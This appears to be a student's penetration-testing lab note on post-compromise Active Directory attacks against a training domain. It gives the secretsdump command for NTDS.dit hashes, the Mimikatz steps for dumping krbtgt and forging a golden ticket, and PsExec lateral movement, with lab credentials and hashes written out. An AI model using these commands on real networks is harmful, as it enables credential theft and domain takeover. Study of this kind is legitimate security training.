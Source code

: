 
## Compromised the Domain - Now What?
 
 - [ ] Post-Domain Compromise Attack Strategy 

```
If we compromise the domain controller on day one, we need to put our
blinders on and go do it again.
```

![[Pasted image 20241116140123.png]]



 - [ ] Dumping the NTDS.dit 

```
secretsdump.py MARVEL.local/pparker:'Password2'@192.168.138.132 -just-dc-ntlm
```

```
You never have to worry about PC passwords cuz if we were going to
crack anything, we would not include PC passwords.
```


- [ ] Golden Ticket Attacks

![[Pasted image 20241116223136.png]]


We can utilize Mimikatz to obtain the information necessary to perform this attack.

```
mimikatz.exe
```

```
privilege::debug
```

```
lsadump::lsa /inject /name:krbtgt
```


We need SID of Domain & NTLM of krbtgt

```
kerberos::golden /User:Administrator  /domain:marvel.local /sid:S-1-5-21-1232359821-2011282127-2883546489 /krbtgt:5dbde4a7fe0e1cced076a9a3ff2128ad /id:500 /ptt
```


If Golden ticket gets picked up and want to get stealthier than look into the what a silver ticket is
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets

```
dir \\10.0.0.25\C$
```

```
PsExec64.exe \\10.0.0.25 cmd.xex 
```

```
Mimikatz commands
psexec.exe
```

https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz

https://learn.microsoft.com/en-us/sysinternals/downloads/psexec


